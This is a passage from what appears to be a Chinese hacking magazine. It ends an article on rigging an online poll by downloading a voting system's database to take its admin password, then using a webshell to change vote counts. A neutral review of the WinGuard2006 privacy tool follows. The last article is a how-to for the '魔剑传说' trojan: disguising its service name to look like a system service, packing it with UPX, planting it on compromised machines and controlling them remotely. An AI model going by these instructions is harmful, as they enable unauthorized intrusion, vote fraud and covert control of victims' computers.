本来，这样就完成了我的目标，以后要投多少票就在批处理中修改一下数值就行了。但过了几天发现这办法不行了，原来是管理员修改了限制方法，改成“限每 IP 只能投一次票”了。怎么突破呢？首先想到的是投一票换一次 IP。我用的是 ADSL 宽带，就要投一次票，下网，再上，再投，如此循环下去，直到票数达到我的目标为止。真的要这样做吗？我才不呢，都说了我比较懒，这方法想想都觉得累。

我想他们这个投票系统应该不是自己写的吧，再者，即使是自己写的也难保不存在什么漏洞可以进入后台。在查看得票数时，我看到浏览器的标题栏上写着“G岳篮琼投票系统”字样，如图8所示。



图8  发现投票系统的名称

从网上找到这个程序，下载下来看了看。用默认密码试了试，不行，改了。再下载默认的数据库 data.asa 文件，OK，用数据库助手看到了管理员密码，用其登录，很顺利地登录到了后台，在“系统设置”栏里看到了限制的设定，如图9所示。



图9  进入投票系统的后台

下面怎么办？当然是选择“不限制！”，一阵狂拉，达到目标后再改回来，不然别人也可以一样随意投啊。还有，记住管理员密码，别动它，以免打草惊蛇，省得下次麻烦。

对该投票系统的突破本应到此结束，但过了几天那哥们儿突然对我说他的票数太多了，看到后吓了好几跳，再则不够真实，要我把票数再减掉点。这可咋办？从来没见过有投票系统会越投越少的啊！在管理后台里也没这功能，又没有什么可利用来修改数据库的，不过我还是做到了，利用了其他漏洞取得了 webshell，把投票系统的数据库按要求修改后再重新传上去，搞定。

### 四、总结

本文没什么新的技术，就是在碰到问题时要多动脑筋。第一次写稿，希望我写的东西能给大家带来些许收获。

> 【文中所涉及到的 run.bat、WinSock Expert、nc.exe 等已经收录在光盘中。】

编辑点评：阻止 cookie 记录、抓包和发包都是很基础的方法，但作者使用循环批处理来辅助，值得小黑们学习学习。都说批处理老了，其实不然，可以这样说：“你的思想能走多远，批处理就能走多远。”



## 隐私保护者——WinGuard2006

- 从本文你可以学到：
- WinGuard2006 的基本应用
- 如何用它来保护个人隐私

最近刚换了新的工作环境，单位里同事很多，大家都很热情地待人，可是却出了个小问题。这个小问题就是中午吃饭休息时间，同事们的手就闲不住了，开着的电脑这个过来弄下，那个过来翻下，心里很不舒服，毕竟自己很多“副业”项目都在里面，若被翻到总是不太好吧。关了又被说省电什么什么的。为了我这个隐私问题，我就开始到处找隐私保护的安全软件，什么挂机锁啊什么什么的，可依旧挡不住这些高手。今天总算找到了一款合适的，感觉不错，推荐给大家，它的名字叫做 WinGuard 2006。

首先介绍下，这是一款免费软件，它的作用是可以让你随心所欲地将电脑锁定起来（DIY 哦），还能对各种隐私信息进行加密（文件夹、文件什么的），对用户的授权也可以很容易地限制。美中不足的是它是英文的，没有汉化的，实在找不到了。不过这并不碍事，因为它很容易上手哦。

废话少说，下载后一路狂点 Next 安装完毕，OK，上路。第一次进去的时候会要求你输密码，默认的密码是 **letmein**，点 Continue 就进去了，如图1所示。



进去后第一步当然是修改密码，点击左边的 Set Passwords 更改密码，它有两个密码，Locked（锁定密码）和 Configuration（配置密码），如图2所示。



把星号密码统统改成你的密码，点 OK 就行了。现在我把主界面从上到下介绍一下：第一行那个地方，Lock a Program or Windows，就是锁定电脑和窗口的地方。选进去以后，看到的第一项是 Programs（程序设定），如图3所示。



这里的 add、remove 键能让你轻松定制哪些程序和文件夹能打开，哪些不能动。最重要的是你自己可以去添加指定的文件，是不是有点 DIY 的味道呢！右边 Internet 选项是限制上网访问，你可以填成网址也可以填成任何的关键字，反正不想要的关键字或者网址就统统屏蔽掉。这样同事来也不怕自己的电脑又被恶意破坏或者无故被钓鱼了。

在主界面的第二行是 Encrypt a file or folder，就是加密文件或者文件夹，点击进去后如图4所示。



在这里你可以随心所欲地给文件或者文件夹加密。点 Encrypt 选择文件或文件夹进行加密，你会发现文件夹中的所有文件名后面都自动被加上了“*.lok”后缀，以后当你再打开这些文件或文件夹时，系统就会弹出提示窗口叫你输入密码，这样就不用再有其他担心了。

主界面中的 additional locks 选项是设置其他锁定的，在这里它可以帮你锁定电脑上的所有窗口，除了有像我的电脑、指定的文件夹和硬盘、命令行窗口、注册表这些常规的隐藏外，还有些小功能哦。尽管是英文的，但是很简单，如图5所示。



如 Windows 选项里的 Lock software installation（锁定软件安装）、Lock Desktop（锁定桌面）、Lock Windows startup（锁定启动项），Windows Explorer 选项里的 Lock My Computer（锁定我的电脑）、Drive A、B、C、D（硬盘 A、B、C、D 盘）等。这些都是常用的东西，是不是很方便啊？再下去就是保护 IE 选项，锁定 IE、锁定下载，而且还多了一个 Lock Browsing of Drives on Address Bar（禁止在浏览器里浏览硬盘），真是太贴心了。至少可以达到网吧里设置公用电脑的安全级别，而且还不耗费资源。

往下看，在 settings 选项那里，你可以把这个小软件的任务栏图标设置成隐藏，也就是 Disable Tray Icon，这样就不会被人发现是什么程序在作怪了。其实，这款软件还有一个好处，就是在任务管理器里不会被轻易结束掉，这样对于那几个所谓的同事中的“高手”也是绰绰有余了，如图6所示。



在这个选项里，你还可以选择是否在 Windows Startup（启动时执行），这也是开机的安全保护功能，选定它会在 Windows 启动时要求输入密码，不过这个倒不是太需要，Windows 已经有了密码保护，不介意的话可以再加一道防线啊，呵呵。

也介绍完了，还有些小东西等着我们发掘呢。至于应用搭配嘛，各取所长，在家里用电脑的朋友肯定不会清楚那种感觉，反正我觉得挺贴心的，你还不去试试！

> 【文中所涉及到的 WinGuard2006，已经收录在光盘中】

**编辑点评：** 工具小巧，运行稳定，操作简单，实用性强，Office 一族可以用它轻松保护个人隐私，家长也可以用它来限制孩子的非法操作。

## “魔剑传说”——亮剑黑界

- 从本文你可以学到：
- 了解“魔剑传说”木马的特性
- “魔剑传说”木马的服务端配置
- “魔剑传说”木马的远程控制操作

### 一、引子

当我们还在为“冰河”开创的国产木马纪元而欢欣鼓舞的时候，国产木马已经在风风雨雨的历程中经历了几代的更替。以冰河、NetSpy 为首的第一代国产木马，以黑洞、灰鸽子、PcShare 为首的第二代国产木马……当黑友还在为第三代国产木马什么时候出现翘首企盼的时候，其实它们已经来到了我们身边。从去年下半年开始，国内陆陆续续出现了多款优秀的木马，今天我就来为大家介绍一款全新的国产木马新秀——“魔剑传说”。

### 二、服务端配置

“魔剑传说”是由“一步江湖”推出的一款优秀的木马程序，我们可以在光盘中找到“魔剑传说 黑客手册专用版”进行使用。我们先来配置一个木马的服务端程序吧。运行“魔剑传说”的客户端程序，如图1所示。从图中可以看出，“魔剑传说”是一款功能丰富的远程管理工具，不但界面干净清爽，而且操作简单。点击“生成服务端”按钮，在弹出的窗口中进行服务端程序的设置。

在服务端程序的连接方式上，“魔剑传说”可以采用域名、固定 IP 地址、网页文件等多种方式进行连接。



> **避嫌取胜技巧：** 服务端配置非常简单，在“安装文件名”选项中设置服务端程序的安装名称。由于服务端程序采用系统服务的方式进行启动，所以我们还需要在“安装服务名”项中设置一个“服务标志”“服务名称字符串”，并在其中设置和服务相关的内容。我们就按照“伪装系统启动进程”把“服务名称”的“显示名称”写成“Alerten”，改为“A1erten”，就是将第一个英文字母“l”改为阿拉伯数字“1”，这是黑客常用的一种迷惑别人的方法。这样木马就会像系统的服务项一样随机器启动。

服务端程序支持自定义端口和密码，默认的连接端口是 3000；另外，在选择了“压缩服务端”选项后，客户端程序就会自动调用 UPX 对服务端程序进行加壳。所有的信息设置完成后，点击“生成”按钮就能生成相应的服务端程序，如图2所示。





配置客户端

服务端程序配置完成以后，我们还需要对客户端程序进行一些简单的设置。点击客户端主程序中的“设置”按钮，在弹出的窗口中设置 IP 地址、连接端口、连接密码等属性。如果用户在前面的服务端程序配置中更改了连接端口和连接密码这两项，这里也必须做出相应的调整，不然的话，服务端程序就不能成功地连接到客户端，如图3所示。

### 三、“魔剑传说”的控制方法

所有的设置完成以后，我们将配置好的服务端程序上传到肉鸡上运行。稍等片刻后，就会在客户端程序的肉鸡列表中出现上线的远程计算机。从列表中我们可以看到远程计算机的 IP 地址、物理地址、操作系统等信息，另外客户端程序会自动判断服务端有无视频设备，然后以不同的图标显示出来。我们从列表中选择想要控制的远程计算机，点击右键，就会看到所有的远程控制命令。下面就依次为大家讲解一下这些命令。

- 1. 远程桌面  
远程桌面是 Windows XP、2003 等操作系统自带的远程管理功能，也就是我们常说的 3389。通过“远程桌面”下的“开启”命令，就可以打开远程计算机的远程桌面功能，这样我们就可以通过微软提供的“合法”方式来控制远程计算机。
- 2. 文件管理  
文件管理用于对远程计算机磁盘中的文件进行管理。
- 3. CMDSHELL  
CMDSHELL 可以获取远程计算机命令提示符的控制权限，在功能上和使用方法上都和我们平时使用的命令提示符差不多，在此我们可以执行很多 DOS 命令，如图4所示。



这主要是操作系统本身的特性所造成的原因，所以该命令可能在服务端为 WIN9x 的情况下无法实现，所以使用前最好通过主机列表中的“操作系统”选项查看清楚远程计算机的操作系统类型为好。

- 4. 进程管理  
